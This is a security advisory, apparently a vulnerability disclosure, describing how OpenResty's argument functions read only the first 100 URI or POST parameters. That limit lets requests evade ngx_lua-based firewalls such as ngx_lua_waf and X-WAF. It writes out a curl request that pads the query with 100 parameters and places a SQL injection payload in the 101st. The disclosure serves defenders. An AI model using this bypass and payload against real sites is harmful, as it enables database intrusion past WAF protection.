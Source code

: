#Uri parameter overflow in OpenResty

### General Description	

Prior to the OpenResty 1.13.6.1 version, URI parameters were obtained using the ngx.req.get_uri_args, ngx.req.get_post_args functions, allowing remote attackers to bypass OpenResty based security and affect multiple open source WAF.

### Details

First look at the official API document. There are two ways to get a URI: ngx.req.get_uri_args, ngx.req.get_post_args. The main difference between the two is the difference between the parameter sources, the ngx.req.get_uri_args acquires the URI request parameters, and the ngx.req.get_post_args gets the content from the post request.

Test case：

`server {
   listen    80;
   server_name  localhost;

   location /print_param {
       content_by_lua_block {
           local arg = ngx.req.get_uri_args()
           for k,v in pairs(arg) do
               ngx.say("[GET ] key:", k, " v:", v)
           end

```
       ngx.req.read_body()
       local arg = ngx.req.get_post_args()
       for k,v in pairs(arg) do
           ngx.say("[POST] key:", k, " v:", v)
       end
   }
```

   }
}`

When the same parameter ID is submitted, it is sorted according to the order of received parameters.

However, when the parameter ID is used to transform the case, such as Id, iD and ID, it will be regarded as different parameters.

![](2.png)

####Uri parameter overflow

What happens if we do not have a segment parameter, so I construct a test case that is convenient for display, a0-a9, 10*10, a total of 100 parameters, and then add the 101st parameters to the SQL injection Payload, let's see what happens?

Test cases:

 curl '127.0.0.1/test?
 a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&a0=0&
 a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&a1=1&
 a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&a2=2&
 a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&a3=3&
 a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&a4=4&
 a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&a5=5&
 a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&a6=6&
 a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&a7=7&
 a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&a8=8&
 a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&a9=9&
 id=1 union select 1,schema_name,3 from INFORMATION_SCHEMA.schemata'

Output results:

![](3.png)

It can be seen that using ngx.req.get_uri_args to get URI request parameters, we only get the first 100 parameters, and the 101st parameter is not obtained. 

Continue to construct a POST request and look at it.

![](4.png)

The content of post request obtained by ngx.req.get_post_args also obtains the first 100 parameters.

To sum up, the first 100 parameters can be obtained by ngx.req.get_uri_args and ngx.req.get_post_args. When the 101st parameters are submitted, the parameters of the URI parameters are overrun and the parameter values after 100th are not properly obtained. 

Based on the security protection of the ngx_lua development, it is impossible for the attacker to carry out effective security detection for the 100th subsequent parameters submitted by the attacker, thus bypassing the security defense.

### Impact products

####A、ngx_lua_waf

Ngx_lua_waf is a web application firewall based on lua-nginx-module (openresty).

Using ngx.req.get_uri_args and ngx.req.get_post_args to get URI parameters.

github：https://github.com/loveshell/ngx_lua_waf

**Interception effect diagram：**

![](5.png)

**Using uri parameter overflow Bypass：**

![](6.png)



####B、X-WAF

X-WAF is a cloud WAF system suitable for small and medium-sized businesses, enabling small and medium-sized businesses to have their own free cloud WAF conveniently.

Using ngx.req.get_uri_args and ngx.req.get_post_args to get URI parameters.

The official website：https://waf.xsec.io 

github：https://github.com/xsec-lab/x-waf

**Interception effect diagram：**

![](7.png)



**Using uri parameter overflow Bypass：**

![](8.png)


